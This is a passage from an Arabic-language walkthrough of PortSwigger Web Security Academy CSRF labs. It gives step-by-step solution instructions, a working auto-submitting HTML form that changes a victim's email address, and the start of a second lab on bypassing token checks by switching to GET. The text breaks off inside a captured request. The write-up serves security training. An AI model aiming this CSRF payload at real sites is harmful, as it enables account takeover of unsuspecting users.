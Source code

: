 ```http
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers

email=test%40gmail.com
```

---

### **📌 خطوات الحل:**

1. **افتح متصفح Burp وسجل دخولك لحسابك.**
2. **ابعت فورم "تحديث الإيميل"، وبعدها دور على الطلب في Proxy history.**
3. **لو معاك Burp Suite Professional:**
   - دوس **كليك يمين** على الطلب.
   - اختار **Engagement tools / Generate CSRF PoC**.
   - فعل خيار **auto-submit script** وبعدها دوس **Regenerate**.

4. **لو بتستخدم Burp Suite Community Edition:** استخدم الكود ده:

```html
<form method="POST" action="https://YOUR-LAB-ID.web-security-academy.net/my-account/change-email">
    <input type="hidden" name="email" value="anything%40web-security-academy.net">
</form>
<script>
    document.forms[0].submit();
</script>
```

5. **روح لسيرفر الاستغلال (Exploit Server):**
   - حط كود **HTML** في خانة **Body**.
   - دوس على **Store**.

6. **جرب الاستغلال بنفسك:**
   - دوس على **View exploit**.
   - راجع الطلبات والردود اللي طلعت بعد تشغيله.

7. **حل المعمل:**
   - غير الإيميل في كود الاستغلال بحيث ميبقاش نفس بتاعك.
   - دوس على **Deliver to victim** لحل التمرين.

---
# [**Lab: CSRF where token validation depends on request method**](https://portswigger.net/web-security/csrf/bypassing-token-validation/lab-token-validation-depends-on-request-method)

بعض التطبيقات بتتحقق من التوكن لما يكون الطلب `POST`، لكنها بتتجاهل التحقق لما يكون `GET`.

في الحالة دي، المهاجم ممكن يغير الطريقة لـ `GET` لتجاوز الحماية وتنفيذ هجوم CSRF.

### **📌 شكل الريكويست:**
```http
POST /my-account/change-email HTTP/2
Host: 0a6f004b0370215280bd170f00a2005f.web-security-academy.net
Cookie: session=H7AjrmtjtOqZzgUYryYidiQDI8Zt62KB
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:135.0) Gecko/20100101 Firefox/135.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 60
Origin: https://0a6f004b0370215280bd170f00a2005f.web-security-academy.net
Referer: https://0a6f004b0370215280bd170f00a2005f.web-security-academy.net/my-account?id=wiener
```